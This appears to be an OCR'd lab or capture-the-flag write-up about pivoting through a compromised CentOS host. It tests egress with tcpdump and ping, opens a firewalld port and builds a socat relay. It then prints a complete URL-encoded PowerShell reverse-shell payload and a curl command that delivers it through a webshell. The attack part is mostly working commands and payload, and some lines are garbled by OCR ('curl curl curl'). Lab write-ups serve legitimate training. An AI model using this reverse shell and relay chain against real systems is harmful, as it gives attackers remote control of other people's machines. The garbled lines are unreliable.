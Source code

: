 Before we go for a reverse shell, we need to establish whether or not *this target is allowed to connect to the outside world*. The typical way of doing this is by executing the ping command on the compromised server to ping our own IP and using a network interceptor (Wireshark, TCPDump, etc) to see if the ICMP echo requests make it through. If they do then network connectivity is established, otherwise we may need to go back to the drawing board.
To start up a TCPDump listener we would use the following command:
```bash
tcpdump -i tun0 icmp
# Note: if your VPN is not using the tun0 interface then you will need to replace this with the correct interface for your system which can be found using ip -a link to see the available interfaces.
# Now, using the webshell, execute the following ping command (substituting in your own VPN IP!):
ping -n 3 ATTACKING_IP
```
all request timeout
Looks like we're going to need to think outside the box to catch this shell.

We have two easy options here:
Given we have a fully stable shell on .200, we could upload a static copy of netcat and just catch the shell here
We could set up a relay on .200 to forward a shell back to a listener

Before we can do this, however, we need to take one other thing into account. CentOS uses an always-on wrapper around the IPTables firewall called "firewalld". By default, this firewall is extremely restrictive, only allowing access to SSH and anything else the sysadmin has specified. Before we can start capturing (or relaying) shells, we will need to open our desired port in the firewall. This can be done with the following command:
```bash
firewall-cmd --zone=public --add-port PORT/tcp
```
In this command we are using two switches. First we set the zone to public -- meaning that the rule will apply to every inbound connection to this port. We then specify which port we want to open, along with the protocol we want to use (TCP).

With that done, set up either a listener or a relay on .200.
```bash
# compromised server
./socat-devme tcp-l:20001.fork,reuseaddr tcp:10.50.73.113:2003 &
```
# url encode powershell reverse shell:
powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.72.200%27%2C20001%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```bash
curl curl curl -X POST http://10.200.72.200:20000/web/exploit-devme.php -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.72.200%27%2C20001%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
```
Ok, reverse shell from .150 send to compromised server(.200) and being forwarded to our machine. We have a reverse shell!!
